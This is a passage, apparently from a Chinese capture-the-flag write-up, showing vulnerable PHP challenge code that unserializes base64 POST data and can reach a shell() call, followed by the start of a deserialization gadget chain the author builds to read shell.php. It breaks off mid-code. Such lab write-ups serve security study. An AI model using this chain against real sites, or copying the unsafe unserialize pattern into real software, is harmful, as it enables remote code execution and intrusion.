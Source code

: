 ```plain
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){   
            shell($content);
        }else{
            echo file_get_contents($filename.".php");   
        }
    }
}
if($_GET['a']!==$_GET['b']&&(md5($_GET['a']) === md5($_GET['b'])) && (sha1($_GET['a'])=== sha1($_GET['b']))){
    @unserialize(base64_decode($_POST['unser']));
```

可以发现是存在一个 shell.php 的，我们构造链子读一下

```plain
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;

    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){   //admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        $this->file=$file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            $this->file->open($this->filename,$this->content);
            die('login success you can to open shell file!');
```